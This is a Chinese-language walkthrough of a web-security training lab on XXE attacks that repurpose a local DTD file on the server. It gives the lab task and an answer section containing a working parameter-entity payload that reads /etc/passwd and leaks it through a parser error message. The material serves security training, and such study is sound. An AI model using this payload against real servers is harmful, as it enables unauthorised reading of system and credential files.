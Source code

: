 5、查找要重新使用的现有DTD文件

由于这种XXE攻击涉及到改变服务器文件系统上现有DTD的用途，因此关键的要求是找到合适的文件。这其实很简单。因为应用程序返回XML解析器抛出的任何错误消息，所以只需尝试从内部DTD中加载本地DTD文件，就可以轻松地枚举这些文件。

```
例如，使用GNOME桌面环境的Linux系统通常在/usr/share/yelp/dtd/docbookx.dtd中有一个DTD文件。可以通过提交以下XXE有效负载来测试此文件是否存在，如果文件丢失，则会导致错误：
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

在测试了公用DTD文件列表以定位存在的文件后，需要获取该文件的副本并对其进行审阅以查找可重定义的图元。由于许多包含DTD文件的常用系统都是开放源代码的，因此通常可以通过Internet搜索快速获得文件的副本

### 题目

实验9：利用XXE通过改变本地DTD的用途来检索数据

```
Lab: Exploiting XXE to retrieve data by repurposing a local DTD
EXPERT

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

Hint
Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.
```

```
信息：

本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。

解决实验：请触发包含/etc/passwd文件内容的错误消息。

需要引用服务器上现有的DTD文件，并从中重新定义实体

使用GNOME桌面环境的系统通常在/usr/share/yelp/dtd/docbookx.dtd有一个DTD，其中包含一个名为ISOamso的实体。
```

### 答案

拦截抓包，修改数据包为

```
在XML声明和stockCheck元素之间插入以下参数实体定义：
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
